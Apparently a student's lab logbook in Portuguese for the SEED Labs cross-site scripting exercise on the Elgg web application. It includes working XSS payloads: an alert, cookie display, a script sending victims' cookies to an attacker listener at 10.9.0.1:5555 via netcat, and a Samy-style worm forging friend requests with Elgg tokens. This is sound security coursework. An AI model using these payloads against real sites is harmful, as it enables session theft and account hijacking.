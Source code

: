 # LOGBOOK 10

### Lab Environment Setup

Completamos todos os pontos presentes no guião deste lab, isto é, DNS Setup, Container Setup and Commands, Elgg Web Application.

### Preparation

Neste lab vamos precisar de construir HTTP requests. Para conseguirmos perceber como é um HTTP request em Elgg aceitável, vamos necessitar de poder capturar e analisar HTTP requests. Podemos utilizar uma extensão do Firefox chamada "HTTP Header Live".
Tivemos que nos ambientar a esta ferramenta, para posteriormente avançar no guião.

## Task 1

O objetivo desta tarefa é incorporar um programa JavaScript no perfil Elgg, de forma que quando outro utilizador visualizar o perfil, o programa JavaScript seja executado e uma janela de alerta seja exibida.

O código JavaScript `<script>alert("XSS");</script>` exibe a janela de alerta. Os resultados estão no final desta secção.

Com o seguinte código exemplo conseguimos referir um ficheiro .js para executar o código nele contido. Isto é útil para quando temos um programa Javascript de maior dimensão, ao contrário do exemplo anterior.
```
<script type="text/javascript"
        src="http://www.example.com/myscripts.js">
</script>
```

![](https://i.imgur.com/obINJpV.png)

![](https://i.imgur.com/LQACwXx.png)



## Task 2

O objetivo desta tarefa é incorporar um programa JavaScript no perfil Elgg, de modo que, quando outro utilizador visualizar o perfil, os cookies do utilizador sejam exibidos na janela de alerta.

Podemos atingir este objetivo introduzindo no campo "description" o seguinte código Javascript:
```
<script>alert(document.cookie);</script>
```

![](https://i.imgur.com/NDacdlJ.png)

![](https://i.imgur.com/5WBiQOO.png)

## Task 3

Na tarefa anterior, o código JavaScript malicioso escrito pelo invasor pode imprimir os cookies do utilizador, mas apenas o utilizador pode ver os cookies, não o invasor. Nesta tarefa, pretendemos que o código JavaScript envie os cookies para o invasor.

Para conseguirmos fazer isto precisamos que o programa Javascript envie um HTTP request para o atacante, com as cookies anexados.
Podemos usar uma tag <img> com o atributo src a apontar para a máquina do atacante. O browser vai tentar carregar a imagem, mas em vez disso vai fazer um pedido GET à máquina do invasor.

O seguinte código JavaScript envia os cookies para a porta 5555 da máquina do invasor (com endereço IP 10.9.0.1), onde o invasor possui um servidor TCP pronto a ouvir na mesma porta.
```
<script>
document.write("<img src=http://10.9.0.1:5555?c=" + escape(document.cookie) + " >");
</script>
```

![](https://i.imgur.com/w87IOAZ.png)

Um programa bastante utilizado por invasores é o netcat (ou nc) , que, se executado com a opção "-l", torna-se um servidor TCP que escuta uma conexão na porta especificada. Este programa de servidor basicamente imprime tudo o que é enviado pelo cliente e envia para o cliente tudo o que é digitado pelo utilizador executando o servidor. Com o comando `$ nc -lknv 5555` conseguimos escutar na porta 5555.

A opção -l é usada para especificar que o nc deve escutar uma conexão de entrada em vez de iniciar uma conexão com um host remoto. A opção -nv é usada para que o nc forneça uma saída mais detalhada. A opção -k significa que quando uma conexão for concluída, deve ouvir outra.

Utilizamos o comando netcat que referimos em cima para ouvir todos os request feitos por utilizadores que visitaram o nosso perfil. Esses requests contêm os cookies do utilizador, como pode ser visto em baixo:

![](https://i.imgur.com/qWdb0cf.png)


## Task 4

Nesta e na próxima tarefa, pretendemos realizar um ataque semelhante ao que Samy Worm fez ao MySpace em 2005. O objetivo é escrever um worm XSS que adiciona Samy como amigo a qualquer outro utilizador que visite a página de Samy.

Podemos adicionar Samy como amigo normalmente e, com a extensão HTTP Header Live, podemos descobrir como um HTTP request de amigo é codificado.

![](https://i.imgur.com/6V7qjGW.png)

Utilizando esta informação, podemos criar um script que, ao ser executado, forja uma solicitação que adiciona Samy como amigo ao utilizador autenticado.

```
<script type="text/javascript">
  window.onload = function () {
    var Ajax=null;

    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;          ➀
    var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁

    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;

    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
  }
</script>
```

Colocamos este script no campo "About me" para ser executado por um utilizador quando este entrar no nosso perfil.

![](https://i.imgur.com/G0dju90.png)

![](https://i.imgur.com/28hoQiI.png)

Antes de visitar o perfil do Samy:

![](https://i.imgur.com/qoYQlQW.png)

Depois de visitar o perfil do Samy:

![](https://i.imgur.com/4VcqtK0.png)


#### Question 1 - Explain the purpose of Lines ➀ and ➁, why are they needed?

As linhas ➀ e ➁, marcadas no script da secção 4, servem para enviar o token elgg no request forjado para que o servidor avalie o request como um request válido do utilizador.

#### Question 2 - If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

Um ataque bem-sucedido não pode ser iniciado, pois o modo Editor filtra os caracteres especiais HTML e não podemos editar o conteúdo HTML interno do campo. Portanto, injetar qualquer script no campo "About me" não é possível, pois não podemos enviar a tag <script> no perfil.
